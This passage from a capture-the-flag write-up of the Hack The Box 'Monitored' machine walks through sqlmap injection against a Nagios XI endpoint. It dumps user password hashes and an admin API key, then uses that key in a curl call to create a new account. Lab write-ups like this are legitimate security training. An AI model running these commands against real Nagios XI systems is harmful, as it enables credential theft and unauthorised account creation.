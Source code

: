 - Get all the tables with `sqlmap -u https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php --data "id=3&action=acknowledge_banner_message&token=<token>" -p id --tables`
- Dump everything from `nagiosxi.xi_users` table with `sqlmap -u https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php --data "id=3&action=acknowledge_banner_message&token=<token>" -p id -D nagiosxi -T xi_users --dump`

We get hashed passwords for both `svc` and `nagiosadmin` users, `$2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK` and `$2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C` respectively. These hashes seem to be from `bcrypt $2*$, Blowfish (Unix)` or hashcat code 3200 (check [here](https://hashcat.net/wiki/doku.php?id=example_hashes)). We run hashcat against and wait patiently.

As the hash cracking takes time, there might be another way to explore (according to HTB policy, this should not take more than 5 minutes + the password for `svc` is already quite complex). We notice we have as well the API keys of the users in the database. For the admin user, we get `IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL`, which we may try to use in the API. The question is where ... While googling for the answer, I found only now that the entire API documentation is available on the NagiosXI page, but I cannot find the API to add a user there, or how to escalate user `svc` to admin.

<img src="images/api_doc.png"  alt="isolated" width="800">


I found the answer [here](https://support.nagios.com/forum/viewtopic.php?t=42923):

`curl -XPOST "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=<api-key>&pretty=1" -d "username=<new-user>&password=<pwd>&name=<name>&email=<mail>"`

I will add a new user `thor` to test it and it seems to work well:

<img src="images/add_user.png"  alt="isolated" width="800">
